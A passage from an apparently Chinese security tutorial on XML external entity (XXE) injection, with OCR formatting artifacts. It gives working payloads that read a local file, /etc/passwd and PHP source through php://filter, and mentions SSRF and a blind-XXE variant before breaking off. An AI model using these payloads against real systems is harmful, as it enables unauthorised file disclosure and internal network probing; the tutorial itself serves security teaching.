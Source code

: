 \`\`\`xml

&lt;?xml version="1.0" encoding="utf-8"?&gt;

&lt;!DOCTYPE root \[&lt;!ENTITY  file SYSTEM "file:///c://TEST.txt"&gt;\]&gt;

&lt;root&gt;&file;&lt;/root&gt;

\`\`\`

将上述xml进行url编码后传进去，可以发现读取了TEST.txt中的内容。

!\[\]\([https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170704/2.jpg?raw=true\](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170704/2.jpg?raw=true\)\)

我这里测试时，如果不进行url编码则不能成功解析。

若使用fill协议，在unix环境下，可以用如下xml来读取passwd：

\`\`\`xml

&lt;?xml version="1.0" encoding="utf-8"?&gt;

&lt;!DOCTYPE root \[&lt;!ENTITY  file SYSTEM "file:///etc/passwd"&gt;\]&gt;

&lt;root&gt;&file;&lt;/root&gt;

\`\`\`

如果要读取php文件，因为php、html等文件中有各种括号\`&lt;\`，\`&gt;\`，若直接用file读取会导致解析错误，此时可以利用\`php://filter\`将内容转换为base64后再读取。

\`\`\`xml

&lt;?xml version="1.0" encoding="utf-8"?&gt;

&lt;!DOCTYPE root \[&lt;!ENTITY  file SYSTEM "php://filter/convert.base64-encode/resource=index.php"&gt;\]&gt;

&lt;root&gt;&file;&lt;/root&gt;

\`\`\`

这里同样先经过url编码后再传入。读取结果如下:

!\[\]\([https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170704/3.jpg?raw=true\](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170704/3.jpg?raw=true\)\)

### 命令执行

php环境下，xml命令执行要求php装有expect扩展。而该扩展默认没有安装。这里暂不进行测试。

\#\#\# 内网探测/SSRF

由于xml实体注入攻击可以利用\`[http://\`协议，也就是可以发起http请求。可以利用该请求去探查内网，进行SSRF攻击。](http://`协议，也就是可以发起http请求。可以利用该请求去探查内网，进行SSRF攻击。)

\#\# bind xxe

以php环境为例，现在更改index.php内容如下：

\`\`\`php
